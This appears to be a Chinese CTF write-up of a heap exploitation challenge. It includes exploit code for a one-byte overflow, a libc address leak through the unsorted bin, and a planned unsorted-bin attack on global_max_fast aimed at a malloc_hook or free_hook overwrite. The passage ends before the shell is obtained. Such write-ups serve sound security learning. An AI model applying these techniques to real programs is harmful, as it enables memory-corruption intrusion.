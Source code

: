 **Demo**

```c
add(0x18,"A"*0x18)#0 #一定要填满，这样才能和chunk_1的size构成连接
add(0x18,"B"*0x18)#1
edit(0,"A"*0x18) #+"\x41" 加上任何单字节能够覆盖下一个chunk的size值
show(0)
#delete(0)
```

![q8WKXW](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/q8WKXW.png)

能够实现一个字节的溢出，覆盖size值，这样就能构造一个很长的fake chunk。

可以伪造加长chunk，泄露libc地址。不过这里的free居然触发不了fastbin，有点奇怪。（后面会解释原因）

通过overlap泄露unsortbin的地址，计算出libc的偏移地址。如果要泄露heap的偏移地址，需要申请两个连续的chunk，chunk中会存有另一个chunk的地址。

![image-20200502143847282](/Users/migraine/Library/Application Support/typora-user-images/image-20200502143847282.png)

泄露地址：

```shell
add(0x18,"A"*0x18)#0
add(0x18,"B"*0x18)#1
add(0x18,"C"*0x18)#2
add(0x18,"D"*0x18)#3
#add(0x38,"E"*0x38)#3
add(0x18,"F"*0x18)#4
add(0x18,"I"*0x18) #5
edit(0,"O"*0x18+"\x81")#1's size->0x81
delete(1) #free 1
add(0x18,"GGGG") #let the unsorbin addr into chunk2
show(2) #leak libc addr

p.recv(6)
#print("libc"+hex(u64(p.recv(6).ljust(8,b"\x00"))))
unsortbin=u64(p.recv(6).ljust(8,b"\x00"))
libc=unsortbin-0x39bb78
print("[+] libc_addr="+hex(libc))
```

**Getshell**

因为保护基本全开了。不能通过覆盖got表来实现getshell。可采用的方式是malloc_hook覆盖或者，free_hook覆盖。基础要求是要实现fastbin attack。但是这里的0x20以及以上大小的free chunk都属于unosortbin实在是奇怪，难道global_max_fast被改了？果然，罪魁祸首。大于16的free chunk都会被链接到unsortbin。

![dKMUwD](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/dKMUwD.png)

思路使用unsortbin attack写一个大值覆盖**global_max_fast**,然后利用fastbin attack。

构造overlap之后覆写unosortbin的bk为globa_max_fast-0x10，然后申请一块较大内存即可触发。

题目条件下，只有在申请内存块的同时刻才能覆盖unsort bin，但是申请内存的过程中，堆管理会遍历unsortbin寻找可用堆块。实验过程中我发现，申请之后把原本在unsortbin的chunk被分配到别的链里去（small bins），就没办法用unsortbin attack。绕过方法是申请的内存和unsortbin中的大小某一块相同，unsortbin链的chunk会被直接取下来，这样unsortbin链堆其他chunjk就会被保留。
